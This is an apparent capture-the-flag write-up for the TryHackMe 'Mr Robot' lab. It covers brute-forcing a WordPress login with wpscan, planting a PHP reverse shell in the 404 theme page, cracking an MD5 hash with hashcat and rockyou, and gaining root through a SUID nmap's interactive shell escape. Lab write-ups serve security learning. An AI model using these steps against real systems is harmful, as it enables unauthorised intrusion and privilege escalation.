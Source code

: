# \# TODO : need to finish this

> nmap -A $TARGET

> dirb http://$TARGET

* robots.txt : fsociety.dic (It will be used later)
* wp-login.php



user elliot , help from writeup ( Method : hydra to login page as a dummy, check status for correct username )

Wpscan on the wp-login with the
> wpscan --url http://$TARGET/wp-login.php --passwords ~/Desktop/THM/mrrobot/fsocity.dic -U elliot

Found Elliot's creds. We can login as wordpress admin.

### Shell access 

Aim: Run PHP reverse-shell script somehow
script used: pentestermonkey's reverse-shell.php

> Replaced the script with the 404-Page theme php code.

While netcat is listening, we can get access by simply requesting a page that doesn't exist.
To activate the 404-page's script.

> URL : http://$TARGET/nonexistingpagelmfao.html

Now we have shell access.

---

> ls -la:

    * key-2-of-3 which is not readable by us
    * password.raw-md5

> cat password.raw-md5

Let's crack it with rockyou

> hashcat pass.hash /usr/share/wordlists/rockyou.txt

```
c3fcd3d76192e4007dfb496cca67e13b:abcdefghijklmnopqrstuvwxyz
                                                 
Session..........: hashcat
Status...........: Cracked
Hash.Type........: MD5
Hash.Target......: c3fcd3d76192e4007dfb496cca67e13b
Time.Started.....: Tue Mar 24 15:33:23 2020 (0 secs)
Time.Estimated...: Tue Mar 24 15:33:23 2020 (0 secs)
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:   180.2 kH/s (0.20ms) @ Accel:1024 Loops:1 Thr:1 Vec:8
Recovered........: 1/1 (100.00%) Digests, 1/1 (100.00%) Salts
Progress.........: 40960/14344385 (0.29%)
Rejected.........: 0/40960 (0.00%)
Restore.Point....: 39936/14344385 (0.28%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:0-1
Candidates.#1....: promo2007 -> loserface1
```


### PrivEsc

> ./LinEnum.sh

[linenumres.txt](https://github.com/parsakzr/CTF/blob/master/THM/mrrobot/linenumres.txt) :

```
[-] SUID files:
-rwsr-xr-x 1 root root 44168 May  7  2014 /bin/ping
-rwsr-xr-x 1 root root 69120 Feb 12  2015 /bin/umount
-rwsr-xr-x 1 root root 94792 Feb 12  2015 /bin/mount
-rwsr-xr-x 1 root root 44680 May  7  2014 /bin/ping6
-rwsr-xr-x 1 root root 36936 Feb 17  2014 /bin/su
-rwsr-xr-x 1 root root 47032 Feb 17  2014 /usr/bin/passwd
-rwsr-xr-x 1 root root 32464 Feb 17  2014 /usr/bin/newgrp
-rwsr-xr-x 1 root root 41336 Feb 17  2014 /usr/bin/chsh
-rwsr-xr-x 1 root root 46424 Feb 17  2014 /usr/bin/chfn
-rwsr-xr-x 1 root root 68152 Feb 17  2014 /usr/bin/gpasswd
-rwsr-xr-x 1 root root 155008 Mar 12  2015 /usr/bin/sudo
*-rwsr-xr-x 1 root root 504736 Nov 13  2015 /usr/local/bin/nmap*
-rwsr-xr-x 1 root root 440416 May 12  2014 /usr/lib/openssh/ssh-keysign
-rwsr-xr-x 1 root root 10240 Feb 25  2014 /usr/lib/eject/dmcrypt-get-device
-r-sr-xr-x 1 root root 9532 Nov 13  2015 /usr/lib/vmware-tools/bin32/vmware-user-suid-wrapper
-r-sr-xr-x 1 root root 14320 Nov 13  2015 /usr/lib/vmware-tools/bin64/vmware-user-suid-wrapper
-rwsr-xr-x 1 root root 10344 Feb 25  2015 /usr/lib/pt_chown
```

\# Help from writeups :

old version of nmap which doesn't have --script 
so: 
> nmap --interactive

```
nmap> !sh
!sh
# whoami
whoami
root

#cat /root/key-3-of-3.txt

```

The End!
